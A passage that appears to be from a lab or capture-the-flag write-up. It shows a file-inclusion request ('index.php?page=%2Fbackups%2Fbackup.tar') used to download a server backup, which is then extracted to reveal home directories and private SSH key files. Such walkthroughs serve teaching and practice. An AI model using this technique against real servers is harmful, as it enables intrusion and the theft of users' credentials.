 ```bash
Connecting to 192.168.56.102:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.php?page=%2Fbackups%2Fbackup.tar’
```

As it appears, the file is downloaded every time for 6685945954 and then breaks. Fortunately tar is a streaming archive in which the files are concatenated, so we might get some files out of it anyway.

```bash
➜  pluck tar xf backup.tar 
tar: This does not look like a tar archive
tar: Skipping to next header
tar: Skipping to next header
tar: Skipping to next header
tar: Skipping to next header
<-- SNIP -->
tar: Skipping to next header
tar: Skipping to next header
tar: Skipping to next header
tar: Skipping to next header
tar: Skipping to next header
tar: Exiting with failure status due to previous errors
```

This was to be expected, therer are errors but lets see what we have anyway

```bash
➜  pluck find .
.
./var
./var/www
./var/www/html
./var/www/html/about.php
./var/www/html/fonts
./var/www/html/fonts/glyphicons-halflings-regular.svg
./var/www/html/fonts/glyphicons-halflings-regular.woff2
./var/www/html/fonts/glyphicons-halflings-regular.ttf
./var/www/html/fonts/glyphicons-halflings-regular.woff
./var/www/html/fonts/glyphicons-halflings-regular.eot
./var/www/html/index.php
./backup.tar
./ome
./ome/bob
./ome/bob/.sudo_as_admin_successful
./home
./home/peter
./home/peter/.profile
./home/peter/.bashrc
./home/peter/.bash_logout
./home/paul
./home/paul/keys
./home/paul/keys/id_key2
./home/paul/keys/id_key5
./home/paul/keys/id_key3.pub
./home/paul/keys/id_key5.pub
./home/paul/keys/id_key1.pub
./home/paul/keys/id_key6
./home/paul/keys/id_key4.pub
./home/paul/keys/id_key2.pub
./home/paul/keys/id_key4
./home/paul/keys/id_key1
./home/paul/keys/id_key6.pub
./home/paul/keys/id_key3
```